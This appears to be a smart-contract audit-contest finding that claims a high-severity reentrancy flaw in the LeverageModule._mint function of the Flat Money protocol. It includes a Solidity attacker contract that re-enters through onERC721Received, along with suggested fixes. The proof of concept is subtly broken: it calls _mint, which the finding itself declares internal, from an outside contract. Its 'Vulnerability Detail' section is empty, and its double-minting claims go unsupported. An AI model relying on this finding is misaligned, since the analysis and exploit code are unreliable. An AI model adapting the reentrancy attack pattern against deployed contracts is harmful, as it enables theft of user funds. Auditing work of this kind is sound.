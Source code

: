 Glorious Pebble Okapi

high

# Reentrancy Vulnerability in `LeverageModule._mint(address)` Leading to Loss of Fund, Double Spending and Spend Manipulation

## Summary
The function `_mint` in the `LeverageModule` contract is vulnerable to reentrancy attacks due to an external call to the `_safeMint` function, which may invoke a callback function in the recipient contract (`IERC721Receiver`). If the recipient contract executes malicious code during the callback, it could manipulate the state of the `LeverageModule` contract or other contracts interacting with it.
## Vulnerability Detail

## Impact

-     State Manipulation: Attackers could exploit this vulnerability to manipulate critical state variables such as `tokenIdNext`.

-     Double-Spending: Reentrancy attacks might allow an attacker to mint the same token ID multiple times or transfer it multiple times, leading to double-spending issues.

-     Loss of Funds: If the vulnerability is exploited, users or the contract could face loss of assets, either directly or indirectly.

## Code Snippet
https://github.com/sherlock-audit/2024-03-flat-money-fix-review-contest/blob/main/flatcoin-v1/src/LeverageModule.sol#L502

## Proof of Concept 

-     Deploy the `LeverageModule` Contract
-     Deploy the Malicious Contract: Create a malicious contract that implements the IERC721Receiver interface. In the onERC721Received function, include a callback that calls back into the _mint function of the LeverageModule contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "./LeverageModule.sol";

contract MaliciousContract is IERC721Receiver {
    LeverageModule public leverageModule;

    constructor(address _leverageModule) {
        leverageModule = LeverageModule(_leverageModule);
    }

    // Implement IERC721Receiver's onERC721Received function
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external override returns (bytes4) {
        // Exploit: reenter the leverageModule's _mint function
        // NOTE: The conditions for reentry and parameters should be controlled
        leverageModule._mint(address(this));
        
        // Return the function selector for ERC721 acceptance
        return this.onERC721Received.selector;
    }

    // Function to initiate the reentrancy attack
    function exploit() external {
        // Call the _mint function from LeverageModule
        leverageModule._mint(address(this));
    }
}

```

## Tool used
Slither
Manual Review

## Recommendation

- Add a reentrancy guard to the `_mint` function to prevent multiple invocations of the function in the same transaction.

Add `nonReentrant` modifier from OpenZeppelin's ReentrancyGuard contract to the `_mint` function signature:
```solidity
function _mint(address _to) internal nonReentrant {
    
}

```

- Avoid or minimize external calls within critical functions. In this case, you could consider using _mint instead of _safeMint if you can assume the recipient contract is always safe

-  Update state variables before performing external calls to reduce the attack surface. Move the increment of `tokenIdNext` (`tokenIdNext += 1;`) to a point before the call to `_safeMint`.

-  Ensure that the recipient contract is a legitimate `IERC721Receiver` implementation and handle any unexpected behavior gracefully.